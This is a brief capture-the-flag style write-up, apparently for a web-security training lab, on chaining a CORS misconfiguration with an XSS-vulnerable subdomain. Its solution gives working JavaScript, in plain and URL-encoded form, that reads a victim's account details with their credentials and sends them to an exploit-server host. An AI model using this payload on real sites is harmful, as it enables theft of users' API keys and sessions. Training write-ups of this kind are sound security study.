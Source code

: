 This request-response indicate a CORS vul
```
GET /accountDetails HTTP/2
Host: 0a4800950308783f80899e36005400c9.web-security-academy.net
Cookie: session=0AGOxm11BHzdEefaCA5sdwWWe7wdCZqi
Origin: http://stock.0a4800950308783f80899e36005400c9.web-security-academy.net
```
```
HTTP/2 200 OK
Access-Control-Allow-Origin: http://stock.0a4800950308783f80899e36005400c9.web-security-academy.net
Access-Control-Allow-Credentials: true
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 149

{
  "username": "wiener",
  "email": "",
  "apikey": "jz5DEHB0zRRPHCgdghQq1HQC0IVEnJ5A",
  "sessions": [
    "0AGOxm11BHzdEefaCA5sdwWWe7wdCZqi"
  ]
}
```
**Lab solution**

The idea is to embeded a CORS script into a **window.location** to the vulerable XSS url

```html
<script>
  window.location = "http://stock.0a4800950308783f80899e36005400c9.web-security-academy.net/?productId=cors-script-here&storeId=1"
</script>
```
CORS script:
```html
<script>
const req = new XMLHttpRequest()

req.open('get', 'https://0a4800950308783f80899e36005400c9.web-security-academy.net/accountDetails', true)

req.onload = () => {window.location = 'https://exploit-0a8300f003e67846807b9d23014c005b.exploit-server.net/nglong05?key=' + req.responseText}

req.withCredentials = true
req.send()
</script>
```
In the final script, the cors script need to be url-encoded
```html
<script>
  window.location = "http://stock.0a4800950308783f80899e36005400c9.web-security-academy.net/?productId=%3c%73%63%72%69%70%74%3e%0a%63%6f%6e%73%74%20%72%65%71%20%3d%20%6e%65%77%20%58%4d%4c%48%74%74%70%52%65%71%75%65%73%74%28%29%0a%0a%72%65%71%2e%6f%70%65%6e%28%27%67%65%74%27%2c%20%27%68%74%74%70%73%3a%2f%2f%30%61%34%38%30%30%39%35%30%33%30%38%37%38%33%66%38%30%38%39%39%65%33%36%30%30%35%34%30%30%63%39%2e%77%65%62%2d%73%65%63%75%72%69%74%79%2d%61%63%61%64%65%6d%79%2e%6e%65%74%2f%61%63%63%6f%75%6e%74%44%65%74%61%69%6c%73%27%2c%20%74%72%75%65%29%0a%0a%72%65%71%2e%6f%6e%6c%6f%61%64%20%3d%20%28%29%20%3d%3e%20%7b%77%69%6e%64%6f%77%2e%6c%6f%63%61%74%69%6f%6e%20%3d%20%27%68%74%74%70%73%3a%2f%2f%65%78%70%6c%6f%69%74%2d%30%61%38%33%30%30%66%30%30%33%65%36%37%38%34%36%38%30%37%62%39%64%32%33%30%31%34%63%30%30%35%62%2e%65%78%70%6c%6f%69%74%2d%73%65%72%76%65%72%2e%6e%65%74%2f%6e%67%6c%6f%6e%67%30%35%3f%6b%65%79%3d%27%20%2b%20%72%65%71%2e%72%65%73%70%6f%6e%73%65%54%65%78%74%7d%0a%0a%72%65%71%2e%77%69%74%68%43%72%65%64%65%6e%74%69%61%6c%73%20%3d%20%74%72%75%65%0a%72%65%71%2e%73%65%6e%64%28%29%0a%3c%2f%73%63%72%69%70%74%3e&storeId=1"
</script>
```